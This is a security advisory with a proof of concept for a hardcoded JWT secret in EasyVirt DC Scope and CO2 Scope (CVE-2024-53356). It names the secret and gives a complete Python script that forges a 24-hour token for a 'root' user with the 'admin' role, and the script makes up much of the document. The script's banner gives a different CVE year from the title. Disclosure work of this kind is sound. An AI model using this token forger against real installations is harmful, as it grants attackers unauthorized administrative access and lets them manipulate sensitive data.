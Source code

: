 # [CVE-2024-53356] - EasyVirt - Weak JWT Secret
#### Exploit Author: [Aurelien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions:
- DC Scope <= 8.6.0
- CO2 Scope <= 1.3.0


## Description:
Weak JWT Secret vulnerabilitiy in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote attackers to generate JWT for privilege escalation. The HMAC secret used for generating tokens is hardcoded as "somerandomaccesstoken". A weak HMAC secret poses a risk because attackers can use the predictable secret to create valid JSON Web Tokens (JWTs), allowing them access to important information and actions within the application.

## Steps to reproduce:
1. Execute following script:
```py
import base64
import hmac
import hashlib
import json
import time

secret_key = 'somerandomaccesstoken'
iat = int(time.time())
# 24 hours validity
exp = iat + (24 * 60 * 60)

header = {
    "alg": "HS256",
    "typ": "JWT"
}

payload = {
    "user": "root",
    "role": "admin",
    "iat": iat,
    "exp": exp
}

def base64_url_encode(data):
    return base64.urlsafe_b64encode(data.encode()).decode().rstrip("=")

encoded_header = base64_url_encode(json.dumps(header))
encoded_payload = base64_url_encode(json.dumps(payload))
jwt_without_signature = f"{encoded_header}.{encoded_payload}"

signature = hmac.new(secret_key.encode(), jwt_without_signature.encode(), hashlib.sha256).digest()
encoded_signature = base64.urlsafe_b64encode(signature).decode().rstrip("=")

jwt_token = f"{jwt_without_signature}.{encoded_signature}"
print('+-------------------------------------------+')
print('| Token generated to exploit CVE-2025-53356 |')
print('|                Validity: 24h              |')
print('+-------------------------------------------+\n')
print('Token:', jwt_token)
```
2. Uses the generated cookie

## IMPACT:
An attacker can gain unauthorized access by forging valid JWTs and impersonating legitimate users. This can lead to the manipulation of sensitive data and privilege escalation.
